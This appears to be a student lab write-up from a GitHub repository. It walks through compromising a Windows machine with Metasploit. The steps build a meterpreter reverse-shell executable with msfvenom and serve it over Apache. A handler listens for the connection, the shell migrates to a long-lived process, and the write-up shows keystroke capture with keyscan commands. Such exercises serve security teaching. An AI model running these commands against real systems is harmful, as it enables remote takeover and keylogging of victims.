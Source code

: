 # EXP.NO:06
# DATE:26-03-2024

# Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

# ALGORITHM:
### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## Commands:
```
ipconfig
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
cp fun.exe /var/www/html
sudo systemctl apache2 start
msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
ps


```

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/241e38d4-48ea-4e84-844c-203800b748ab)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9a5df072-ea93-4d78-b19d-0b538abd2afe)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fa436c58-1533-42ad-953e-05aab7679b33)

Start apache server sudo systemctl apache2 start
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/79b3ed4f-2e95-4c10-9308-3c931e3f9b07)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/fcc713e4-2884-489f-9682-8b418e6071df)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/afb1606a-460c-4142-840f-2c5eca6de9df)

ype help or a question mark "?" to see the list of all available commands you can use inside msfconsole
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/5485dcda-63dc-46fc-9e17-982b7fb666c1)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/e65719b5-a0a3-4791-8179-01f60ef680d4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9e462cee-0922-46b0-bbdc-5eec4b3493fb)

Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/465816f7-7f2d-4cd1-9ec1-a37730d2ac72)

On kali give the command exploit
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/9c28793a-9789-45b3-93b9-73328162f9a3)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/3ebff0be-9705-4b37-8d25-ee198512f4c2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/d4a87497-8634-494d-a4e8-f8d892cc7080)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/679e1a38-ac9a-4827-bceb-11eca119d56a)
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/f30636e6-c1b1-4f9f-ab43-ff1c400bafa5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Priya-Loganathan/Compromising-windows-using-Metasploit/assets/121166075/847f50fc-ae46-4a16-babf-63782184e0b4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
